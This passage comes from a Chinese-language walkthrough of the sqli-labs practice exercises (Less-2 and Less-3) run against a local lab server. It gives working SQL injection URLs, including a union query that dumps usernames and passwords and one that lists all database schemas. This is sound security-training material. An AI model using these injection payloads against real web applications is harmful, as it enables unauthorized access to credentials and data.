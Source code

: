 

### 获得所有账号和密码

获得账号和密码后，使用~符号进行分隔

这段代码是前面代码的复合形式

```
http://192.168.81.135/sqli/Less-2/?id=-1 union select 1,2,group_concat(concat_ws(0x7e,username,password)) from security.users--+
```

![image-20211211102213867](https://gitee.com/xxb667/img/raw/master/img/image-20211211102213867.png)

## Less-3--基于【')】的字符型注入

配置信息同上

### 查看id值信息

id=（‘1’）

```
http://192.168.81.135/sqli/Less-3/?id=1 --+
```

![image-20211211105923643](https://gitee.com/xxb667/img/raw/master/img/image-20211211105923643.png)

### 注入语句

```
http://192.168.81.135/sqli/Less-3/?id=1')  and 1=1--+
```

不报错，正常显示

![image-20211211110119755](https://gitee.com/xxb667/img/raw/master/img/image-20211211110119755.png)

### 查询数据参考

其他查看数据库内容方法参考Less-1和Less-2

#### 查看所有数据库

通过改变Id值来依次查看数据库

```
http://192.168.81.135/sqli/Less-3/?id=1') union select 1,2,group_concat(schema_name) from information_schema.schemata--+
```

![image-20211211110855871](https://gitee.com/xxb667/img/raw/master/img/image-20211211110855871.png)

#### 查看所有表
